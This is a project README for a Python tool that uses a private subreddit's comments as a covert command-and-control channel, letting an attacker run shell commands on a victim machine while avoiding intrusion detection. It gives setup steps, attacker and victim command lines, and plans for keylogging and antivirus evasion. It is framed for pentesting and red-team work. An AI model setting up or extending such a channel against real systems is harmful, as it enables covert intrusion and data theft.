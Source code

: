 # Python Reddit CnC
A Python based Reddit CnC

## Why Reddit?
I wanted to create a Python based shell that would be very hard to differentiate from legitimate traffic. The first project I made was a Python HTTPS shell that would generate noise to reddit.com but this would still need a self-signed certificate which would cause IDS to trigger on the invalid certificate associated with the displayed domain (reddit.com). After brainstorming for a while and letting colleagues of mine analyze the PCAP, I remembered the Turla CnC which made use of Instagram comments, found the [PRAW](https://praw.readthedocs.io/en/latest/) library and [a Reddit comment bot](https://github.com/yashar1/reddit-comment-bot). The result of all these inspirations is shown in the scripts.

I hope that this tool will prove useful in pentesting, red-teaming, CTF, etc.

## How it works
The attacker creates a subreddit (preferably a private one), this subreddit will serve as the place for the attacker to execute the commands and the victim to post the output of the executed command. This can be summarized as follows:
* Attacker creates a post on the subreddit and notes the ID of this post
* Attacker starts the Reddit CnC with the following parameters: username, password, client-id, client-secret, subreddit and post-id
* The CommandCenter places a "start" string and waits for the "ready" comment of the victim
* When the victim script starts it looks for the "start" string and places a "ready" comment
* The attacker parses the "ready" comment and places the "exec whoami" comment to issue a whoami command to the victim
* The victim responds with "result [user id]"
* The attacker parses the comment by verifying that the comment ID does not exists in the list with parsed comment ID's
* Result gets displayed on the terminal of the attacker

After issuing the "exit" command by the attacker, the victim will delete all the comments in the subreddit's post.

## Requirements
* [Python](https://www.python.org/downloads/)
* [PRAW](https://praw.readthedocs.io/en/latest/) - Python Reddit API Wrapper
* [DNSPython](http://www.dnspython.org/) - Python DNS toolkit
* A **Reddit** account

## Setup
### Reddit
**Setting up the Reddit account details**
* [Navigate to the Reddit Apps page ](https://www.reddit.com/prefs/apps/)
* Click *create an app*
* **name:** Set a name for your app
* **type:** Script
* **description:** Optional
* **about url:** Optional
* **redirect uri:** http://localhost:8080
* Write down the *client id* and *secret*

**Setting up the subreddit**
* [Create a subreddit](https://www.reddit.com/subreddits/create)
* **name:** Set a name for your subreddit
* **title:** Set a title for your subreddit
* **description:** Optional
* **sidebar:** Optional
* **Posttext:** Optional
* **language:** Optional
* **type:** this can be anything you want, if you want to go for stealth I suggest setting this to "private"
* **content options:** Optional
* **wiki:** Optional
* **spamfilter:** I suggest setting this to low, I have not tested if it deletes comments when issuing a lot of commands
* **other options:** Leave default
* **mobile looks:** really?
* **Press create**

* Create a first post, the content doesn't matter
* Write down the ID of the post displayed in the URL

## Usage
**Attacker**
```sh
$ python reddit_command.py --username [username] --password [password] --client-id [client ID] --client-secret [client secret] --subreddit [subreddit you created] --post-id [ID of the post in the subreddit]
```

**Victim**
```sh
$ python reddit_slave.py --username [username] --password [password] --client-id [client ID] --client-secret [client secret] --subreddit [subreddit you created] --post-id [ID of the post in the subreddit]
```

## Future improvements
* Add keylogger/clipboardlogger option
* Hide the victim script inside an executable with antivirus/endpoint protection/solution evasions

## Acknowlegdements
* Idea based on the [Reddit Comment Bot](https://github.com/yashar1/reddit-comment-bot)
